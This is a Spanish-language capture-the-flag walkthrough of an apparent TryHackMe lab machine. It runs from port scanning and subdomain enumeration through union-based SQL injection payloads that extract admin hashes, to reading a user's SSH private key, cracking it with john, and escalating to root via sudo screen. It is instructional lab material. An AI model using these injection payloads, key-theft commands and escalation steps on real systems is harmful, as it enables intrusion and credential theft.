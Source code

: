 ### Tags: `Virtual Hosting` `SQLI` `ssh2john`

# Escaneo (*22,80,25565*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn ip -oN escaneo
```
![image](https://github.com/user-attachments/assets/f0272aa8-5cfc-4150-a6fe-e7be9d396599)

# Web port80

Encontramos un dominio que lo añadimos sal  `etc/hosts`

![image](https://github.com/user-attachments/assets/9a964c02-b302-4e33-8090-8537bf3a52a8)

Ahora visualizamos la web y no había nada pero cuando hicimos `Ctrl + u` encontramos esto

![image](https://github.com/user-attachments/assets/c1ce8331-fd13-4d65-b70d-4a6d4ba51e1f)

## Gobuster (**subdominios**)

```ruby
gobuster vhost -u http://cybercrafted.thm/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain
```

Encontramos estos subdominios los agregamos al `etc/hosts`

![image](https://github.com/user-attachments/assets/be7fc1ce-5590-4615-a596-478575e2909a)

En los 2 (que marcamos en rojo) había un **panel de login** que era el mismo --> (por este lado no es la vía)

![image](https://github.com/user-attachments/assets/99e08865-a65c-40cc-b483-4a6acd18f59c)

También había un subdominio `www.store.cybercrafted.thm` y haciendo Gobuster encontramos este `search.php`

![image](https://github.com/user-attachments/assets/17acaa2d-a341-45b2-9c2a-fa390f0cc92d)


```ruby
gobuster dir -u http://www.store.cybercrafted.thm/  -t 100 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php --no-error
```

![image](https://github.com/user-attachments/assets/40e00520-edb0-48ef-939c-e7e093ec3d1d)
![image](https://github.com/user-attachments/assets/51dca3c3-8ae7-4158-b14a-b2a6bc9b600b)

# SQLI (**BurpSuite**)

Observamos que es panel es a vulnerable `sql injection`, si poníamos `'or 1=1 -- -` nos muestra ítems que no aparecían antes. Interceptamos la petición con Burp y con `'order by 4-- -` supimos que había cuatro columnas.
Con este comando `'union select NULL,NULL,NULL,table_name FROM information_schema.tables -- -` observamos una tabla llamada `admin`

![image](https://github.com/user-attachments/assets/36d09945-f699-4884-80ed-2b5ad6936794)

Con este comando `'union select NULL,NULL,NULL,column_name FROM information_schema.columns where table_name = 'admin' -- -`  enumeramos las tablas de `admin`.

![image](https://github.com/user-attachments/assets/a8fb8bf0-294b-428f-90a8-8cf8e2bfec6a)

Obtenemos el hash y el user de esta forma: `'union select NULL,NULL,user,hash from admin -- -`

 ![image](https://github.com/user-attachments/assets/ea4f3a0a-8016-4219-a506-39add30328c1)

Tenemos un usuario y una contraseña que la Desencriptamos en [CrackStations](https://crackstation.net/) --> `xXUltimateCreeperXx : 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01`, `diamond123456789`

![image](https://github.com/user-attachments/assets/9aa6cb56-97bc-47c3-acef-61056f9c56dd)

Probamos las credenciales para el **panel** y funcionó!

![image](https://github.com/user-attachments/assets/90b65816-1b04-4722-a9d6-4e00e1f23a66)

# Explotación

Tamos dentro y tenemos ejecución de comandos 

![image](https://github.com/user-attachments/assets/aae57b06-18d3-43a9-9023-b137cb69a32d)

Listando el `etc/passwd` vemos 

![image](https://github.com/user-attachments/assets/d1e3d618-3b71-4d65-ab29-c15368de52a3)

Pudimos obtener la `id_rsa` de `xxultimatecreeperxx` 

```ruby 
cat /home/xxultimatecreeperxx/.ssh/id_rsa
```
![image](https://github.com/user-attachments/assets/2b5f035f-3e21-4597-a07c-419b3bf97c79)

Como esta encriptado hacemos lo siguiente:

```ruby
 ssh2john id_rsa > hash.txt
 john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Tenemos la contraseña `creepin2006` para conectarnos por SSH

![image](https://github.com/user-attachments/assets/6375f344-93dc-4da4-80d3-eb09e6c5493f)

## SSH

Nos conectamos por SSH como el user **xxultimatecreeperxx** y con la contraseña que encontramos anteriormente 

```css
 chmod 600 id_rsa
 ssh xxultimatecreeperxx@10.10.126.43 -i id_rsa
```
![image](https://github.com/user-attachments/assets/403ee93f-6537-461f-b9a4-2121b3846e78)

# Escalada (`cybercrafted`)

Dentro de `/opt` tenemos esto

![image](https://github.com/user-attachments/assets/73cc4f92-5518-4498-b3bb-c5aa1fdbaf31)

Encontramos la contraseña de *cybercrafted* en  un archivo llamado `log.txt` , `JavaEdition>Bedrock`

![image](https://github.com/user-attachments/assets/3057b981-55c1-4ae7-98fe-f9c2abc4b2db)
![image](https://github.com/user-attachments/assets/3a793de4-f81e-41f7-b038-4b175fce2fec)

# Escalada ROOT

Vemos que poniendo `sudo -l` tenemos esto esto que podemos ejecutar como root:

![image](https://github.com/user-attachments/assets/3a60cf66-d76e-4182-a2d8-5f49027b678e)

Buscando en internet en este [Enlace](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-screen-privilege-escalation/) nos dice como hay que hacer para escalar a root:

```ruby
 sudo /usr/bin/screen -r cybercrafted
 Ctrl+a+c
```

![image](https://github.com/user-attachments/assets/7893a598-1872-4613-9961-a9c1b3099d9c)


